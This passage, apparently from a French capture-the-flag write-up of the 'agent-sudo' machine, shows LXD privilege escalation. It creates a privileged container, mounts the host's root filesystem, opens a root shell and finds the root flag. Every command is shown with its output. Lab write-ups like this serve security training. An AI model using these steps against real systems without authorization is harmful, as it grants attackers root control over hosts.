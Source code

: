 Avec la commande suivante nous allons créer un container grâce à l'image importé.

> ​	lxc init alpine privesc -c security.privileged=true
>

```
james@agent-sudo:~$ lxc init alpine privesc -c security.privileged=true
Creating privesc
```

Vérifions que le contenaire est bien créé.

> ​	lxc list
>

```
james@agent-sudo:~$ lxc list
+---------+---------+------+------+------------+-----------+
|  NAME   |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+---------+---------+------+------+------------+-----------+
| privesc | STOPPED |      |      | PERSISTENT | 0         |
+---------+---------+------+------+------------+-----------+
```

Maintenant nous allons mapper la partition hôte au container

> ​	lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
>

```
james@agent-sudo:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
```

Il nous reste plus qu'à démarrer le container et éxecuter nos commande en tant que root.

> ​	lxc start privesc
>
> ​	lxc exec privesc /bin/sh*

```
james@agent-sudo:~$ lxc start privesc
james@agent-sudo:~$ lxc exec privesc /bin/sh
~ # whoami
root
```

Nous voilà root grâce à lxd.



Pour trouver le flag root.

> ​	find / -name root.txt 
>

```
find / -name root.txt 
/mnt/root/root/root.txt
```
